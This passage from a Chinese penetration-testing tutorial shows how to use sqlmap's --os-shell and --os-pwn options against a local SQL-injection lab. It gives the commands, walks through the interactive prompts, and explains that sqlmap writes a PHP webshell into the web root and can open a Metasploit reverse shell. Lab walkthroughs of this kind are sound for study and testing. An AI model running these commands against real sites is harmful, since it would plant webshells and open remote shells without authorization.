 - 当前用户为 root
- 知道网站根目录的绝对路径
- 该数据库的 secure_file_priv 参数值为空(很多数据库的该值为NULL，这也就导致了即使当前用户是root，即使知道了网站根目录的绝对路径，也不能执行成功 —os-shell )

```python
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell  #执行--os-shell命令
```

**选择网站的脚本语言**

- 【1】ASP(默认)
- 【2】ASPX
- 【3】JSP
- 【4】PHP

您是否希望sqlmap进一步尝试引发完整路径的披露？【Y/n】

**选择判断网站可写目录的方法**

如果我们不知道网站的根目录的绝对路径的话，我们那里选择 4 暴力破解，尝试破解出根目录的绝对路径。这里因为是我们本地的环境，已经知道网站根目录的绝对地址了，所以选择 2

- 【1】使用公共的默认目录(C:/xampp/htdocs/，C:/wamp/www，C:/Inetpub/wwwroot/)
- 【2】自定义网络根目录绝对路径
- 【3】指定自定义的路径文件
- 【4】暴力破解

[![img](https://p3.ssl.qhimg.com/t01871e1fc335db81df.png)](https://p3.ssl.qhimg.com/t01871e1fc335db81df.png)

可以看到，其实执行os-shell的过程中，sqlmap向网站根目录写入两个文件 tmpblwkd.php 和 tmpueqch.php。真正的木马文件是tmpblwkd.php 。如果是非正常退出sqlmap的话，这两个文件不会被删除。只有当我们输入 x 或 q 退出 sqlmap 时，该文件才会被自动删除。

[![img](https://p5.ssl.qhimg.com/t015a0aa18a923881ee.png)](https://p5.ssl.qhimg.com/t015a0aa18a923881ee.png)

[![img](https://p4.ssl.qhimg.com/t01356b89b90db96323.png)](https://p4.ssl.qhimg.com/t01356b89b90db96323.png)

[![img](https://p5.ssl.qhimg.com/t01c5976157489fa7a4.png)](https://p5.ssl.qhimg.com/t01c5976157489fa7a4.png)

[![img](https://p5.ssl.qhimg.com/t01de1bbab11027a0db.png)](https://p5.ssl.qhimg.com/t01de1bbab11027a0db.png)

### 反弹一个MSF的shell(—os-pwn)

在数据库为MySQL、PostgreSql或者SQL Server时，可以执行该选项。并且需要当前获取的权限足够高才可以。

```
sqlmap -u "http://192.168.10.20:88/index.php?id=1"  --os-pwn
```

[![img](https://p5.ssl.qhimg.com/t01b527df2522fbd96c.png)](https://p5.ssl.qhimg.com/t01b527df2522fbd96c.png)

**选择连接的tunnel，这里选择默认的 1 就可以了**
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh – ICMP tunneling
\> 1
